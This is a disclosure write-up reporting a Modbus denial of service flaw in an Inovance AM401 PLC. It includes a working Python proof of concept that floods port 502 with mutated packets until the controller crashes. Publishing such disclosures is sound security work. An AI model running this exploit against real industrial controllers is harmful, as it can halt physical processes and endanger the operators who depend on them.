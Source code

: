 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

# Detail
My host ip:![image](https://github.com/user-attachments/assets/7a6cd389-bddb-43c9-994c-5356f3468745)

Connectivity test of the device:
![image](https://github.com/user-attachments/assets/4c48b67b-3d88-4e49-9689-a3cd9046b9ce)

Nmap scans device ports:
![image](https://github.com/user-attachments/assets/9038fe3e-9051-4d16-b732-b579b933c96d)
You can see that port 502 is open.

Then we run the script:
![image](https://github.com/user-attachments/assets/62888b9e-8f0f-4a09-a26a-cd344c7c2345)

Soon you will see the device crash.
![image](https://github.com/user-attachments/assets/189ccdf2-398a-48bf-95f8-069994ebfbb4)
![image](https://github.com/user-attachments/assets/00e1625c-d950-4041-bc3c-986838f74292)


# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def F5(x):
    return (x**2) & 0xFF

def Change(data: bytes):
    l = len(data)
    import random
    pos = 0
    while ((pos==0) or (pos == 20)):
        pos = random.randint(0, l - 1) 
    Fs = [F1, F2, F3, F4, F5]
    f = random.randint(0, 4)  
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))
MAX_LEN = 65536
cur = 0
first = False
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s.send(now)
            import time
            # time.sleep(0.1)
            # s.close()
        except:
            if first == False:
                print()
                print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
    cur = (cur + 1) % MAX_LEN
```

# Discoverer
https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)

